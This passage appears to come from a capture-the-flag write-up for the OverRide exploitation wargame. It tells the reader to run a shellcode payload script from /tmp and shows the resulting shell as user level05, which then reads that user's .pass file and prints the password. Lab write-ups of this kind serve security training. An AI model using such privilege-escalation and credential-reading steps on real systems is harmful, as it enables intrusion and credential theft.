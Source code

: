 Execute Resources/payload.sh on the machine placing it in /tmp folder (or any other folder you can write in) to get a shell as level05:

```sh
level01@OverRide:~$ /tmp/payload.sh
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
